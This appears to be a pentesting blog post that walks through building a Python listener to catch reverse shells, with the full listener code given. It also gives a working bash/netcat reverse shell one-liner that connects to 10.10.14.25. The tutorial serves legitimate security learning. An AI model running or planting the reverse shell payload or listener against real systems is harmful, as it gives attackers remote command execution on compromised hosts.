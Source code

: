 ```yaml
---
layout: post
title:  "Creating a Basic Python Reverse Shell Listener"
date:   2021-10-16 17:00:10 +0200
#mainTags: ["OSWE","Pentesting Tips & Tricks"]
tags: ["ANSI Escape Codes","Automated Exploitation","Demo Available","Listener","OSWE","Pentesting Tips & Tricks","Python3","Socket Programming","Reverse Shell","Tool"]
popularity: 1000
---
```


# Introduction
This week I wanted to create a listener in python which functioned like the command `nc -lp [port]`, which is commonly used to catch reverse shells. At first, I thought it would be a piece of cake and would simply be something like reading the user input for a command, sending the command and retrieving the output of the command. However, it turned out to be a bit more complicated than I thought. As such, I decided to share the solution in a post.

The reason why it could be nice to be able to catch reverse shells using code rather than the netcat command (`nc`) is that it can facilitate automation. For example, if an exploit requries multiple listeners, the user of the exploit won't need to manually start the listeners. For instance, the script could be used in a more complex script which starts a listener that catches a reverse shell for a regular user, starts another listener, performs a set of privesc commands and then catches a root shell.

To debug the script, I used the reverse shell payload below. I would run this reverse shell payload on another host and catch it with either netcat or a python script while capturing the network traffic in Wireshark. This enabled me to study the differences between the communication resulting from both listeners and deduce what went wrong when something didn't work.

{% highlight bash linenos %}
mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9999 >/tmp/f
{% endhighlight %}

# Challenges
There were two main challenges which I encountered while writing the code. The first was the problem of reading the input data of the user without displaying it twice in the terminal. This is a problem since the reverse shell payload presented earlier, and most other reverse shell payloads, echo the input of the user back to the user. Among other things, I searched for input functions which could receive input from the terminal and remove the input from the terminal once the user pressed enter to submit it.  

Unfortunately, there did not appear to be many options for input functions which differed from the classical `input()` function in this sense. When the `input()` function is used, it outputs the user input to the terminal together with a newline character. This means that the user input will appear twice since it is also echoed back from the reverse shell payload. As will be seen in the next section, this can be solved with ANSI escape codes.

The second challenge I encountered was that some commands needed some time to finish executing. For this, I didn't find a great solution and after a while I decided to simply introduce an artifical delay of 1 second before retreiving the output of the command. As such, commands taking more than the time limit to finish executing, would risk not having their output returned to the user. While this artrificial delay could impact the user experience, it is unlikely to be a problem when performing automated exploitation since the artificial delay could be increased to render the risk of missing output negligible.

# Writing the Code
The first step in writing the code is to import the required modules, as shown at the first line in the code block below. The "socket" module is required to be able to listen to for connections on a port, accept connections and send traffic over a connection. The `sys` module is used to write output to the terminal without newline characters since the `print()` function automatically appends a newline character to any data it outputs to the terminal. Finally, the `time` module is simply used for the artifical time delays. After importing the modules, we define the 'listen' function and call it with an ip and a port. This function is where all of the listeners code will be placed. Note that the ip must be an IP corresponding to your computer while the port can have an arbitrary value as long as this value corresponds to a port which is not in use by another program.

{% highlight python linenos %}
import socket, sys, time

def listen(ip,port):
    pass

listen("10.10.14.25",9999)
{% endhighlight %}

Next, we add the code below, which listens for a connection over TCP and accepts it. The first line defines a socket object with the parameters `socket.AF_INET` and `socket.SOCK_STREAM` which simply states that the socket will deal with IPv4 and TCP respectively. Then, on the second line, we bind the socket object to the port we want to listen on. Next, we use the `listen()` function to start listening on the provided port, passing `1` as a parameter to indicate that we only expect one connection. Thereafter, we wait for a connection at line 5, where we acquire the `conn` object which represents the connection and can be used to communicate with the connecting host.  
{% highlight python linenos %}
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((ip, port))
s.listen(1)
print("Listening on port " + str(port))
conn, addr = s.accept()
print('Connection received from ',addr)
{% endhighlight %}

Then, we add the three lines below to receive any initial characters from the reverse shell payload. This is usually the current user, hostname, current working directory and some special characters which function as delimiters. Once we have received this data, we output it to the terminal and ask the user for a command to execute using the `input()` function. Note that we need to use `decode()` function on the first line. This function is used to decode the bytes object obtained from `conn.recv(1024)`, into a string using the [UTF-8](https://en.wikipedia.org/wiki/UTF-8) character encoding.
{% highlight python linenos %}
ans = conn.recv(1024).decode()
sys.stdout.write(ans)
command = input()
{% endhighlight %}

The next step is to send the command to the other host, which can be achieved by the code snippet below. Here, we add a newline character to the command since the `input()` function returns the user input except for the newline character. Thereafter, we send the command on line 2 and wait for it to finish executing at line 3 by using the `time.sleep()` function to wait for one second before continuing. At this point, we should be able to wrap these two code snippets in a `while` loop and execute commands indefinitely. 
{% highlight python linenos %}
command += "\n"
conn.send(command.encode())
time.sleep(1)
{% endhighlight %}

This is, however, where things get slightly tricky. At this point, we encounter the first of the two challenges described earlier. Namely that the user input is also received from the compromised host's output and thus is outputted twice to the terminal, as can be seen in the picture below.
![pythonListenerWOCursorFix](/assets/2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener/pythonListenerWOCursorFix.png)

A solution to the problem is to use [ANSI escape codes](https://en.wikipedia.org/wiki/ANSI_escape_code) which can be used to move the terminal cursor. Since the terminal cursor points to the place in the terminal where characters are written when sent to STDOUT, we can use this to remove the user input. More specifically, the idea is to remove the user input once it has been submitted and wait for the output of the compromised host to fill it in again, together with the corresponding output. A way to perform this is to move to the beginning of the line where the user input was submitted and output all the characters until the location where the user input was previously submitted. This can be achieved by adding the line below after the previous code snippet. In this line, the `sys.stdout.write()` function is used to write an ANSI escape code to the terminal together with the original line without the user input.
{% highlight python linenos %}
sys.stdout.write("\033[A"+ans.split("\n")[-1])
{% endhighlight %}
The ANSI escape codes is `\033[A` which moves the cursor up one line. Then, the last line which was recevied is outputted. This moves the terminal cursor to the place where the user entered the command. Note that the last line is obtained by splitting on the newline character `\n` and selecting the last line in the resulting list by using the index `-1`. Finally, note that it is important for the user experience to place this line after the `time.sleep(1)` line rather than before, since placing it before means that the user input could be gone while we are waiting for the command output.

# Final Code
Putting everything together, we get the code below which can be downloaded [here](/assets/2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener/pythonListener.py). The only thing that has been added in this code is the `while` loop which simply ensures that the user can execute more than one command.

{% highlight python linenos %}
import socket, sys, time

def listen(ip,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("Listening on port " + str(port))
    conn, addr = s.accept()
    print('Connection received from ',addr)
    while True:
        #Receive data from the target and get user input
        ans = conn.recv(1024).decode()
        sys.stdout.write(ans)
        command = input()

        #Send command
        command += "\n"
        conn.send(command.encode())
        time.sleep(1)

        #Remove the output of the "input()" function
        sys.stdout.write("\033[A" + ans.split("\n")[-1])

listen("10.10.14.25",9999)
{% endhighlight %}

For a demo of the script in action, see the video below.

<video width="100%" controls="controls">
  <source src="/assets/2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener/pythonListenerDemo.mp4" type="video/mp4">
</video>

